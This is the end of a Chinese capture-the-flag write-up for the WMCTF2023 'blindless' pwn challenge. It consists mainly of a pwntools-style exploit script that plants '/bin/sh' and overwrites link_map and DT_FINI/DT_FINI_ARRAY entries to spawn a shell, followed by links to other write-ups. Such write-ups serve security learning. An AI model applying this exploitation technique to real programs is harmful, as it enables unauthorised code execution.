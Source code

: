 ```bash
ru('code\n')

argv0 = 0x33d968
l_addr = 0x33e190
dt_fini = 0x33e190+0xa8
dt_fini_array = 0x33e190+0x110

payload = b'@' + p32(argv0-0x10) + write(b'/bin/sh\x00')
payload += b'@' + p32(l_addr-argv0-8) + write(p8(0xe0))
payload += b'@' + p32(dt_fini-l_addr-1) + write(p8(0xa8))
payload += b'@' + p32(dt_fini_array-dt_fini-1) + write(p64(0))
payload += b'q'
#dbg()
sl(payload)


itr()
```

​​  
[![](assets/1701612101-2df1d4602b937be823d5472e46e6f4cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230914101015-d7f0af92-52a3-1.png)  
​​

‍

### 参考链接：

[WMCTF2023 pwn 部分 wp - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/652099671#blindless)

[2023 WMCTF (gitee.io)](https://grxer.gitee.io/2023/08/28/2023wmctf/#blindless)

[WMCTF 2023 Writeup - 星盟安全团队 (xmcve.com)](http://blog.xmcve.com/2023/08/22/WMCTF-2023-Writeup/#title-16)

